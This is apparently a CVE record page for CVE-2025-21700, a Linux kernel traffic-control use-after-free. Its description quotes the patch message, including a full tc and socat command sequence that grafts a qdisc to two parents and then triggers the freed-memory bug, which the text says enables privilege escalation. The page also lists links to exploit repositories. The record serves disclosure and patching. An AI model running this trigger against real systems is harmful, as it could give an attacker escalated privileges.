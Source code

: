 ### [CVE-2025-21700](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-21700)
![](https://img.shields.io/static/v1?label=Product&message=Linux&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=1da177e4c3f41524e886b7f1b8a0c1fc7321cac2%3C%20cd796e269123e1994bfc4e99dd76680ba0946a97%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=n%2Fa&color=brighgreen)

### Description

In the Linux kernel, the following vulnerability has been resolved:net: sched: Disallow replacing of child qdisc from one parent to anotherLion Ackermann was able to create a UAF which can be abused for privilegeescalation with the following scriptStep 1. create root qdisctc qdisc add dev lo root handle 1:0 drrstep2. a class for packet aggregation do demonstrate uaftc class add dev lo classid 1:1 drrstep3. a class for nestingtc class add dev lo classid 1:2 drrstep4. a class to graft qdisc totc class add dev lo classid 1:3 drrstep5.tc qdisc add dev lo parent 1:1 handle 2:0 plug limit 1024step6.tc qdisc add dev lo parent 1:2 handle 3:0 drrstep7.tc class add dev lo classid 3:1 drrstep 8.tc qdisc add dev lo parent 3:1 handle 4:0 pfifostep 9. Display the class/qdisc layouttc class ls dev lo class drr 1:1 root leaf 2: quantum 64Kb class drr 1:2 root leaf 3: quantum 64Kb class drr 3:1 root leaf 4: quantum 64Kbtc qdisc ls qdisc drr 1: dev lo root refcnt 2 qdisc plug 2: dev lo parent 1:1 qdisc pfifo 4: dev lo parent 3:1 limit 1000p qdisc drr 3: dev lo parent 1:2step10. trigger the bug <=== prevented by this patchtc qdisc replace dev lo parent 1:3 handle 4:0step 11. Redisplay again the qdiscs/classestc class ls dev lo class drr 1:1 root leaf 2: quantum 64Kb class drr 1:2 root leaf 3: quantum 64Kb class drr 1:3 root leaf 4: quantum 64Kb class drr 3:1 root leaf 4: quantum 64Kbtc qdisc ls qdisc drr 1: dev lo root refcnt 2 qdisc plug 2: dev lo parent 1:1 qdisc pfifo 4: dev lo parent 3:1 refcnt 2 limit 1000p qdisc drr 3: dev lo parent 1:2Observe that a) parent for 4:0 does not change despite the replace request.There can only be one parent.  b) refcount has gone up by two for 4:0 andc) both class 1:3 and 3:1 are pointing to it.Step 12.  send one packet to plugecho "" | socat -u STDIN UDP4-DATAGRAM:127.0.0.1:8888,priority=$((0x10001))step13.  send one packet to the grafted fifoecho "" | socat -u STDIN UDP4-DATAGRAM:127.0.0.1:8888,priority=$((0x10003))step14. lets trigger the uaftc class delete dev lo classid 1:3tc class delete dev lo classid 1:1The semantics of "replace" is for a del/add _on the same node_ and nota delete from one node(3:1) and add to another node (1:3) as in step10.While we could "fix" with a more complex approach there could beconsequences to expectations so the patch takes the preventive approach of"disallow such config".Joint work with Lion Ackermann <nnamrec@gmail.com>

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/fkie-cad/nvd-json-data-feeds
- https://github.com/xairy/linux-kernel-exploitation

